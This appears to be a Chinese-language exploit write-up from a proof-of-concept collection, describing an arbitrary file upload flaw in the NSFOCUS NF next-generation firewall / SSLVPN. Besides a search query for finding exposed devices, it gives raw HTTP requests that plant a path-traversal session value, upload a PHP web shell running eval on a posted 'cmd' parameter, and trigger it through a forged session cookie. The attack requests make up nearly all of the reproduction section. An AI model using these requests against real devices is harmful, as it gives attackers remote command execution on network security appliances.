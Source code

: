 # 绿盟 NF下一代防火墙 任意文件上传漏洞

## 漏洞描述

绿盟 SSLVPN 存在任意文件上传漏洞，攻击者通过发送特殊的请求包可以获取服务器权限，进行远程命令执行

## 漏洞影响

绿盟 SSLVPN

## 网络测绘

```
app="NSFOCUS-下一代防火墙"
```

## 漏洞复现

主页面

![image-20230828162157873](images/image-20230828162157873.png)

出现漏洞的端口为 8081

```
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=1d52ba2a11ad8a915eddab1a0e85acd9
Host: 

--1d52ba2a11ad8a915eddab1a0e85acd9
Content-Disposition: form-data; name="file"; filename="sess_82c13f359d0dd8f51c29d658a9c8ac71"

lang|s:52:"../../../../../../../../../../../../../../../../tmp/";

--1d52ba2a11ad8a915eddab1a0e85acd9--
```

![image-20230828162212745](images/image-20230828162212745.png)

```
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```

![image-20230828162224796](images/image-20230828162224796.png)

```
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```

![image-20230828162237233](images/image-20230828162237233.png)

```
POST /mail/include/header_main.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID_NF=82c13f359d0dd8f51c29d658a9c8ac71
Host:

cmd=phpinfo();
```